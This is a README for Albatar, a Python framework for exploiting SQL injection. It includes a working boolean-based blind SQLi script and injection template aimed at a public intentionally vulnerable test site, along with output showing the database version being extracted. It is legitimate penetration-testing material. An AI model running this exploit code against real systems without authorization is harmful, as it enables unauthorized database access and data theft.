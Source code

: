 I wrote Albatar to have a neat and tidy tool to exploit SQL Injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL Injection vulnerabilities but it is designed to exploit not-so-straightforward SQLIs where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (e.g. --dbs, --banner ...) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple boolean-based SQLI (MySQL)

Let's use Albatar to exploit a dead-simple SQLI at http://testasp.vulnweb.com/showforum.asp?id=1. Clone the repository, and create the below script:
```python
from albatar import *
from urllib import quote
import re

PROXIES = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Lorem ipsum dolor sit amet' in body:
    return 1
  else:
    return 0

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=1${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      encode_payload = quote
      )

  template = ' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

And execute the script to exploit the SQLI:
```
$ python testphp.py -b
14:19:22 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 14:19 AEST
14:19:22 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
14:19:41 albatar - Time: 0h 0m 19s
```

